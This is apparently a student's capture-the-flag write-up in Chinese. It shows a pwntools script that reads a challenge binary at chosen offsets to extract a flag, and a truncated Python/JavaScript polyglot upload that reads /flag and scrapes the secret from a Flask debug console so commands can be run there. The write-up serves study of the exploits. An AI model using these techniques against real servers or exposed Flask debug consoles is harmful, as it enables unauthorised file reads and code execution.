 - **/home/chal/chal**
    
    先找到 binary file 中 FLAG 存在的行數，最後估算出 offset 該設多少才能讀到 FLAG (時間不夠你從頭讀到尾)
    

最後用 xdd 成功讀到 FLAG : **flag{CS2022Fall_is_good}**.GCC: (Ubuntu 1 ..

```python
from pwn import *

output = open("ch", "wb")
r = remote('edu-ctf.zoolab.org',10001)
r.sendlineafter(b'5. seek\n','1')
r.sendline('/home/chal/chal')
r.sendlineafter(b'5. seek\n','2')
r.sendlineafter(b'5. seek\n','3')

output.write(r.recvuntil(b'1.')[2:-2])
for i in range(100,170):
    r.sendlineafter(b'5. seek\n','5')
    r.sendline(str(i*100+100))
    r.sendlineafter(b'5. seek\n','2')
    r.sendlineafter(b'5. seek\n','3')
    output.write(r.recvuntil(b'1.')[2:-2])
```

# [0x00] Under Development

這題透過 Pyscript 可知如果同時用 python 跟 js 印出第一個 flag 可以得到 flag1

看 Dockerfile 可知 flag2 只存在 flask 的 container，但是沒有與外網相連

所以唯一接觸 flag2 的方式只有透過 Pyscript 中執行 python 的指令 

搜尋 flask 相關漏洞可知如果把 Debug Mode 打開並且關閉 Debug Pin，在 flask app後面加入 /console 可以進入 python console

然而我們是無法直接用瀏覽器接觸 console ，在某篇 github 教學發現要透過 console 發出來的 js 中找到 secrect，這樣才能夠過發 request 的方式直接對 console 下指令讀取 flag

由於 Pyscript 只能回傳成功或失敗，我把 Flag 中會出現的字元一個一個比對找出整個 FLAG **f14sk_d36ug_m0d3_i5_r3adly_d4ng3r0u5**

## 上傳的檔案

```python
a = 1 // 1 ; b = '''

// Put your Javascript code here.
// Python will just assign it to a string variable

var fs = require('fs'); 
var data = fs.readFileSync('/flag');
// return(data)
// console.log(data.toString())
process.stdout.write(data.toString())

/* '''
# Put your Python code here. Javascript will ignore it
# because it's inside a comment

import urllib.request
import urllib.error

with urllib.request.urlopen('http://flask:5000/console') as response:
    secret = response.read()
secretnum = secret.decode('ascii').find('SECRET')
secret = secret[secretnum+10:secretnum+30].decode('ascii')
```